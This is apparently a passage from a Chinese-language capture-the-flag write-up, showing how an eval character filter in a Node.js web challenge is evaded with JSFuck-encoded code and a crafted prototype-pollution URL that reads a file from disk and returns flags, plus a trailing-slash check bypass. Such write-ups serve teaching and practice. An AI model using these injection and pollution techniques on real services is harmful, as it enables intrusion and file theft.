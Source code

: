 ```jsx
r;
```

现在只需要考虑对注入代码的限制：

```jsx
if (term.indexOf("_") !== -1) {
  res.send("Bad parameter!");
  return;
}
if (eval_mode && /^\([^a-zA-Z"',;]+\)$/.test(term)) term = safe_eval(term);
```

也就是我们的代码里不能出现`_`和`[a-zA-Z"',;]`. 为此，我参考[JSFuck](http://www.jsfuck.com)将上述注入代码转换了一下，见本题附件的`7.js`, `8.js`, `jsfucker.js`以及`out.txt`.

接下来我们需要的仅仅是重启环境，用获得的 flag1 激活，打开 eval，然后输入该恶意 URL：

```
/api/demo.json?in_path=a&in_path=b/constructor/prototype/x/${encodeURIComponent(out)}/y/x
```

获得：

```json
{
  "flag{0.30000000000000004}flag{I-Can-Activate-From-ProTotyPe}flag{I-Can-steal-File-ON-The-Disk}": {
    "y": {}
  }
}
```

得到 flag2：`flag{I-Can-steal-File-ON-The-Disk}`.

其中只要在 path 最后加一个`/`就可以绕过代码中的`this feature is currently under development :(`.

# Binary

## 诡异的网关

探索 UI，发现好东西：
